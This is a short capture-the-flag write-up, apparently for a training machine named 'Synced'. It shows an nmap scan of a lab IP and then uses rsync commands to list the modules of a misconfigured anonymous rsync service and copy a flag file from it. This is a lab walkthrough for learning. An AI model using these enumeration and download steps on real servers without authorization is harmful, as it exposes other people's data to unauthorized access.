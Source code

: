 # Synced

- TL;DR: Since the `rsync` is misconfigured to permit anonymous login we are able to connect to the remote server with `rsync` cli and view the contents on the remote server.

## Reconnaissance
    
- Run an nmap scan:
```
nmap -p- --min-rate=1000 -sV 10.129.57.117

Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:07 PDT
Nmap scan report for 10.129.57.117
Host is up (0.077s latency).
Not shown: 65534 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.24 seconds

```
<br>

## Exploitation

- From the scan we find the following ports open:
    - `873/tcp` running the `rsync` service.
- `rsync` allows to copy locally, to/from another host over any remote shell, or to/from a remote rsync daemon. 
- We run the following command to list out the directories on the remote host using the `rsync` cli:
    - `rsync --list-only 10.129.57.117`
- Next we list the files inside the directory we got from the previous command:
    - `rsync --list-only 10.129.57.117::public`
- We can then transfer the file from the `public` directory on the remote host to our local machine with the following command:
    - `rsync 10.129.57.117::public/flag.txt flag.txt`

